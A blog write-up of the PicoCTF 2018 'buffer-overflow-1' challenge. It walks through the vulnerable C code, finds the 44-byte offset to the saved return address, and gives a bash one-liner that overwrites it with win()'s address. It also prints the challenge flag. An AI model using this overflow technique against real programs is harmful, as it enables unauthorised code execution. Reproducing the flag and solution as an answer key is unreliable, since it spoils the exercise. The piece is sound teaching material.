 ```yaml
---
layout: article
title: "Buffer Overflows: PicoCTF2018-BufferOverflow-1" 
categories: [Cybersecurity]
author: Ahmed Elmayyah
tags: [Cybersecurity, C, Exploitation, Writeup, Buffer Overflows]
mode: normal 
header:
  theme: dark
article_header:
  type: cover 
  theme: dark
  background_image: false
# Stick to an image with a height of 700
  image:
    src: /assets/images/writeup-pico18-bufferoverflow-1/pico18_bof1_header.jpg
cover: /assets/images/writeup-pico18-bufferoverflow-1/pico18_bof1_cover.jpg
---
```

>I wrote this post back in late May 2019 but hadn’t published it and I don’t really remember why I didn’t. It was supposed to be a follow up for the post on the [buffer overflow basics](https://satharus.me/cybersecurity/2019/05/22/buffer_overflows_the_basics.html). 
>
> Anyway since I’ve already written it, here it is.
<!--more-->

For those that don’t know, [PicoCTF](https://picoctf.com/) is a free cybersecurity CTF game targeted at middle and high school students. It has some really easy challenges that get harder as you progress. I always recommend it as a good starting point for CTFs. This specific challenge is a good starting point to start learning about buffer overflows and how to exploit them.

If you don’t know what CTFs are, check out my article: [The Art of Cybersecurity (And how to get into it)](https://satharus.me/cybersecurity/2019/12/02/the_art_of_cybersecurity.html) for some starter info.

> “Okay now you’re cooking! This time can you overflow the buffer and return to the flag function in this [program](https://2018shell.picoctf.com/static/d6146450a41960f6ce43dbfb300d9ef4/vuln)? You can find it in /problems/buffer-overflow-1_0_787812af44ed1f8151c893455eb1a613 on the shell server.” [Source](https://2018shell.picoctf.com/static/d6146450a41960f6ce43dbfb300d9ef4/vuln.c). “

This is the description of the challenge. Since we have the source code available, it is easier to start there and then resort to disassembling the program or debugging it if necessary. By inspecting the source code of the program, we find that the input is taken via a buffer of size 32.


```c
#define BUFSIZE 32
#define FLAGSIZE 64
```

```c
void vuln(){
  char buf[BUFSIZE];
  gets(buf);

  printf("Okay, time to return... Fingers Crossed... Jumping to 0x%x\n", get_return_address());
}
```
Enter any string and it’ll say “Okay, time to return… Fingers Crossed… Jumping to 0x80486b3”.

Note: 0x80486b3 was the address in my case. It’ll probably be different if you try to solve the challenge.

This means that it returns to that address in the assembly code. If we change that value, we can make the program return to any address by writing over it using the input.

This can be achieved using a buffer overflow exploit.

I tried entering 32 ‘a’ chars and I didn’t see any change in the address, so I kept increasing them until I found that the address starts changing after entering 44 characters.

The explanation for this is that the saved instruction pointer (before the call to vuln()) is located 12 bytes after the last byte in the buffer.

Checking the assembly code using ObjDump, the function we want to run (win()), is found at address 080485cb. Which is exactly where we want to return.

```c
void win() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}
```

So that means we need to enter 44 dummy characters to the input of the program, and then the address we want the program to return to.

There are no ASCII characters for `0x08 0x04 0x85 0xcb` so we need to write them as raw bytes.

Piping the output from a small BASH script into the input of the program solves this issue for us.

```sh
for a in `seq 1 44`
do
    echo -n 'a'
done

echo -e \\xcb\\x85\\x04\\x08
```

Mind that the address is entered  in reverse (byte-wise) because Intel x86 is Little-endian which means the least significant byte maps to the lowest memory address. So 0x12345678 would be stored in memory as 0x78563412.

{: style="text-align:center"}
![Output](/assets/images/writeup-pico18-bufferoverflow-1/Output.png)

And boom! We have a flag 🙂

**Flag: picoCTF{addr3ss3s_ar3_3asy3656a9b3}**

- Difficulty: Easy

- Number of points: 200

- Number of solves (as of 23/5/2019): 3065

Thanks for reading!
